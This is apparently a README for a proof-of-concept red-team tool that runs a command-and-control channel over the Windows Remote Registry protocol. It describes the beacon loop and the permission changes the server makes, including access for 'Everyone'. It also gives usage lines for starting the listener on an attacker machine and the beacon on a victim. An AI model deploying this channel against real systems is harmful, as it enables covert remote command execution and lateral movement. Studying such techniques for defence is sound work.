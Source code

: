 # Everything Can Be A Shell... An asynchronous shell at least...



## Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)
*... Also, at this moment, the repository only contains a single shell using Windows Registry keys. However, I hope to add more in the future. *

## Concept of this repository
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

## C2 using Windows registry keys

### Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

### Demo:
[![Demo](https://img.youtube.com/vi/jOPCbK-WF1M/0.jpg)](https://www.youtube.com/watch?v=jOPCbK-WF1M)

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to read & write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only really be suitable for lateral movement on local networks, however I have not tested it over the internet. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on each key. The consequences could be dire :D

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. Think of this used defined registry key as the port (LHOST).
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will connect to the C2 server using WinReg, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When it is time to check-in, the client executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's registry keys "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:
![client_start](https://user-images.githubusercontent.com/35890107/186356461-715947b2-5926-40fe-9d9f-2264ebe20476.png)


Win32 apis 

Wireshark traffic
